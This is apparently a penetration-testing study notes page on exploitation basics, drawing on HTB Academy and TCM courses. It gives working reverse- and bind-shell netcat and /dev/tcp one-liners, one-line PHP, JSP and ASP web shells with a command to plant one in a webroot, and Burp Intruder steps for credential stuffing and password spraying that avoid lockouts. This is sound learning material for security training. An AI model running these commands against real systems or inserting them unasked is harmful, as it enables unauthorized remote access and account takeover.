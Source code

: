 # Exploitation (Basics)

Exploitation is the attack performed against a system or application based on the potential vulnerability discovered during our information gathering and enumeration.  
We use the information from the Information Gathering stage, analyze it in the Vulnerability Assessment stage, and prepare the potential attacks.  
Often many companies and systems use the same applications but make different decisions about their configuration.  
This is because the same application can often be used for various purposes, and each organization will have different objectives.  
*Source: Hackthebox Academy*

## Shells

### Reverse shell

![image](https://user-images.githubusercontent.com/96747355/175835538-b00ec472-e4b3-4688-b062-25d37837b8b1.png)  
Source:[hackingtutorials.org](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)  

- The target connects back to us. Initiates a connection back to a "listener" on our attack box.
- Example
  - in our attacking machine we type `nc -nlvp 4444` (4444 is the port) 
  - in our target we connect be. For instance in case of a linux based machine we can do `netcat ATTACKING-MACHINE-IP 4444 -e /bin/bash` we could also use `/bin/bash -i >& /dev/tcp/ATTACKING-MACHINE-IP/4444 0>&1`

### Bind shell

![image](https://user-images.githubusercontent.com/96747355/175835567-7bb7a51d-7761-4cc8-983a-cc7087dacaac.png)  
Source:[hackingtutorials.org](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)

- We connect to the target. "Binds" to a specific port on the target host and waits for a connection from our attack box.
- Example
  - in our target we can do `nc -nlvp 4444 -e /bin/bash`
  - in our attacking machine we can do `nc TARGET-IP 4444`

### Web shell

- Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a PHP script to run a single command.
- Communicates through a web server, accepts our commands through HTTP parameters, executes them, and prints back the output.

#### PHP Web shell

```php
<?php system($_REQUEST["cmd"]); ?>
```

#### JSP webshell

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

#### ASP webshell

```c#
<% eval request("cmd") %>
```

#### Where to upload it

|Web Server|Default Webroot|
|----------|---------------|
|Apache|`/var/www/html/`|
|Nginx|`/usr/local/nginx/html/`|
|IIS|`c:\inetpub\wwwroot\`|
|XAMPP|`C:\xampp\htdocs\`|

- `echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php` bash command for an Apache web server on linux
- To access it `shell.php?cmd=id` with the browser
- `curl http://SERVER_IP:PORT/shell.php?cmd=id` with the command line

## Payloads

![image](https://user-images.githubusercontent.com/96747355/175836279-e0f0e004-c75a-4d8e-b4de-9680e1b5306a.png)  
Source:[TCM Academy](https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course)

- If one type of payload does not work we can try the other one

## Bruteforce attacks

- Check out how to use hydra [here](/Tools/passwords-tools.md#hydra)
- We can also use metasploit that has multiple modules for bruteforce attacks

## Credentials stuffing and password spraying

- Methodology
  - Use leaked creds found during the enumeration phase on the login portals found during the enumeration phase
- The goal of credentials stuffing and password spraying is to taking these credentials and throwing them at a website
- We can use burp intruder for this
  - First we can see what we get when a login fails, and copy the string we get back
  - We send the login portal to intruder and we add the login and password as variables
  - We use a pitchfork attack
  - We make a grep-match on the string previously copied 
  - Then in the payloads we take the list of users for the variable that corresponds to user and the list of passwords for the one that corresponds to the password. And then we just launch the attack.
  - In the results we will see the ones that are not valid with our grep match. We can also check the response (301 is redirect for example) and the size of the paylaod (if it is really different in one of the results
- Password spraying: We can also try an attack with one password and try out multiple usernames
  - Caution here, checkout prior to your engagement if a lockout is in place how many tried before being locked out. When we know this we can then setup our attack to try something every hour or so.

## Possible paths after this step

|Path |Description|
|-----|-----------|
|Information Gathering| Once we have initial access to the target system, regardless of how high our privileges are at that moment, we need to gather information about the local system. Whether we use this new information for privilege escalation, lateral movement, or data exfiltration does not matter. Therefore, before we can take any further steps, we need to find out what we are dealing with. This inevitably takes us to the vulnerability assessment stage, where we analyze and evaluate the information we find.|
|Post-Exploitation| Post-exploitation is mainly about escalating privileges if we have not yet attained the highest possible rights on the target host. As we know, more opportunities are open to us with higher privileges. This path actually includes the stages Information Gathering, Vulnerability Assessment, Exploitation, and Lateral Movement but from an internal perspective on the target system. The direct jump to post-exploitation is less frequent, but it does happen. Because through the exploitation stage, we may already have obtained the highest privileges, and from here on, we start again at Information Gathering.|
|Lateral Movement|From here, we can also skip directly over to Lateral Movement. This can come under different conditions. If we have achieved the highest privileges on a dual-homed system used to connect two networks, we can likely use this host to start enumerating hosts that were not previously available to us.|
|Proof-of-Concept| We can take the last path after gaining the highest privileges by exploiting an internal system. Of course, we do not necessarily have to have taken over all systems. However, if we have gained the Domain Admin privileges in an Active Directory environment, we can likely move freely across the entire network and perform any actions we can imagine. So we can create the Proof-of-Concept from our notes to detail and potentially automate the paths and activities and make them available to the technical department.|

*Source: HTB Academy*

## Resources

{% embed url="https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/" %}Hacking Tutorials{% endembed %}
{% embed url="https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course" %} Practical Ethical Hacking - TCM Security {% endembed %}
